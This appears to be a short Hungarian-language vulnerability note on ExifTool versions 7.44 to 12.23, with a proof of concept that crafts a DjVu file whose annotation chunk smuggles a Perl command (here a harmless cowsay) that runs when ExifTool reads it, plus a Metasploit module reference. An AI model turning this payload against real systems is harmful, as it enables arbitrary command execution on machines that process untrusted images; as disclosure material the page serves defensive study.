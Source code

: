 <languages />

Érintett verzió
---------------

ExifTool 7.44 to 12.23

POC
---

      $ printf 'P1 1 1 0' > moo.pbm
       $ cjb2 moo.pbm moo.djvu
       $ printf 'ANTa\0\0\0\40"(xmp(\\\n".qx(cowsay pwned>&2);#"' >> moo.djvu
       $ exiftool moo.djvu > /dev/null
        _______
       < pwned >
        -------
               \   ^__^
                \  (oo)_______
                   (__)\       )\/\
                       ||----w |
                       ||     ||

    --
    Jakub Wilk

Metasploit
----------

<https://github.com/rapid7/metasploit-framework/pull/15185>

    exploit/unix/fileformat/exiftool_djvu_ant_perl_injection